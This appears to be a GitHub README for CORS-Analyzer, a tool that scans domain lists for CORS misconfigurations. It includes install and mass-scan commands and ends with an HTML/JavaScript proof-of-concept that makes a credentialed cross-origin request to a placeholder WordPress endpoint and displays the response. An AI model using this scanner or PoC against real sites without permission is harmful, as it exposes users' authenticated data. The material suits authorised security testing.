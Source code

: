 # CORS-Analyzer
## This tools is developed for identifying the vulnerable cors domain

![alt text](https://raw.githubusercontent.com/hariharan005/CORS/main/lib/banner/cors-analyzer.png)

### How to install CORS-Analyzer:
```
git clone https://github.com/hariharan005/CORS.git     
ls    
cd CORS
sudo pip3 install -r requirements.txt 
cd lib && chmod +x cors.py
sudo ln -s "$(pwd)/cors.py" /usr/local/bin/cors-analyzer 
cors-analyzer
```
Now type "cors-analyzer" to access the CORS analyzer tool from anywhere

### How to install using pip:

```
For first time installation use the following command,
    pip install cors-analyzer

If you want to install the latest version of CORS-Analyzer just uninstall the old version using the following command,
    pip uninstall cors-analyzer
    pip install --upgrade cors-analyzer

For upgrade, use the following command,
    pip install --upgrade cors-analyzer

For ignore the cache, use the following command,
    pip install --ignore-cache cors-analyzer
```
### Python Version:
* Python 3 (3.x.x) latest version

### How to Use CORS-Finder:

```
For scanning:
       cat <domain.txt> | xargs -n1 -P10 cors-analyzer                           
For scanning with output:  
       cat <domain.txt> | xargs -n1 -P10 cors-analyzer | tee -a <output.txt>
```

### When its vulnerable:
If the header returns the 
       Access-Control-Allow-Origin: https://vulnerable.com/
       Access-Control-Allow-Credentials: true
       its vulnerable

Note: Not all the time its seems vulnerable, you have to check with cors payload and in the authenticated manner also. Try to exploit and this tool is only for indentifying the vulnerable domain

Note: In this tool i used sample domain file but you have to choose your own url file which you recon using some other recon tool.


### Exploitation examples:

Here is the Example code for exploiting the CORS misconfiguration:

Goto this line and replace the URL xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);

```
<!DOCTYPE html>
<html>
    <title>Cors POC</title>
    <style>
        body{
            background-color: white;
            justify-content: center;
        }
        button{
            justify-content: center;
            align-items: center;
            color: white;
            border-radius: 8px;
            font-size: 18px;
            background-color: #6437A0;
            position: relative;
            width: 10%;
            height: 50px;
            display: grid;
        }
    </style>
     <body>
         <h1>CORS PoC by @crypto_grapper_</h1><span><h2>Hariharan.C</h2></span>
         <div id="demo">
                <button type="button" onclick="cors()" >Wp-json Exploit</button>
            </div>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
             xhr.open("GET", "https://www.vulnerable.com/blog/wp-json/", true);
             xhr.withCredentials = true;
             xhr.send();
             }
             setTimeout(() => {
                document.location.reload("#");
             }, 5000);
         </script>
     </body>
 </html>
```